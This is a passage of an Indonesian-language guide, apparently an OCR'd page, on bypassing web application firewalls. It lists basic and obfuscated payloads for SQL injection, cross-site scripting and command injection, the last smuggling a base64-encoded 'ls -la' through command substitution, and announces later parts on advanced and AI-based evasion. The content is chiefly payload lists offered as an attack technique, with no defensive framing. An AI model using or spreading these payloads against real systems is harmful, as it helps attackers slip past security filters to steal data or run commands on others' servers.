 
## 🎯 Contoh Payload Awal untuk Bypass WAF

| **Serangan** | **Payload Dasar** | **Payload yang Dimodifikasi** |
|-------------|-----------------|-----------------------------|
| SQLi | `' OR 1=1 --` | `%27%20OR%201%3D1%20--` |
| XSS | `<script>alert(1)</script>` | `<img src=x onerror=alert(1)>` |
| RCE | `; ls -la` | `|$(echo bHMgLWxhCg== | base64 -d)` |

---

## 📌 Kesimpulan Sementara
Bagian pertama ini mencakup **dasar-dasar bypass WAF**, termasuk sejarah, metode deteksi, dan beberapa teknik bypass awal seperti encoding dan case manipulation.  
Bagian selanjutnya akan membahas **bypass WAF tingkat lanjut**, termasuk AI-based bypass, obfuscation yang lebih kompleks, dan payload eksklusif.

🛠️ **Next:** "Payload Bypass SQLi, XSS, RCE, SSRF, SSTI, dan Teknik AI-Based WAF Evasion"  

Bagian ini berisi daftar **payload bypass WAF** yang digunakan dalam berbagai jenis serangan, mulai dari SQL Injection hingga Server-Side Template Injection (SSTI). Setiap payload dilengkapi dengan contoh implementasi.

---

## 🛠️ 1. SQL Injection (SQLi)

**Payload Dasar (Deteksi Awal):**
```sql
' OR 1=1 --
' UNION SELECT NULL,NULL --
```

**Payload Bypass WAF (Encoding & Case Manipulation):**
```sql
%27%20OR%201%3D1%20--
SeLeCt * FrOm users WhErE username='admin' --
' UNION/**/SELECT/**/NULL,NULL --
```

**Payload dengan Comment Obfuscation:**
```sql
SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'
```

---

## 🎭 2. Cross-Site Scripting (XSS)

**Payload Dasar:**
```html
<script>alert(1)</script>
```
